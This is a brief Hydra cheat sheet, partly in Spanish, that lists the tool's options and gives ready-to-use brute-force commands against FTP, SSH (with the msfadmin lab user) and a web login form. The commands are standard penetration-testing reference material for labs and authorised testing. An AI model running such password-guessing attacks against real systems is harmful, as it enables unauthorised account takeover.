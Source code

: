 # Hydra Cheat Sheet

### Options

- `-s <port>` : Si el servicio está en un puerto diferente por default.
- `-l` : Especificar un usuario.
- `-L <userfile>` : Leer de un archivo listado de usuarios.
- `-p` : Especificar un password.
- `-P <passwordfile>` : Leer de un archivo listado de passwords.
- `-t <#tasks>`: Número de conecciones en paralelo por objetivo.
- `-M <targetsfile>` : Leer de un archivo listado de objetivos.
- `-o <file>` : Guargar el resultado en un archivo.
- `-vV` : Modo verbose, mostrando el inicio de sesión+contraseña para cada intento

## Examples

### Brute Force Crack on FTP Server
- `hydra -t 1 -l admin -P <path-to-password.lst> -vV <IPaddress> ftp`

### Brute Force Crack on SSH Server
- `hydra -l msfadmin -P <path-to-password.lst> ssh://IPaddress -vV`

### Brute Force Crack on WEB Login Server
- `hydra -l none -P <path-to-password.lst> <IPaddress> https-form-post "/db/index.php:password=^PASS^&login=Log+In&proc_login=true:Incorrect password" -t 64 -V`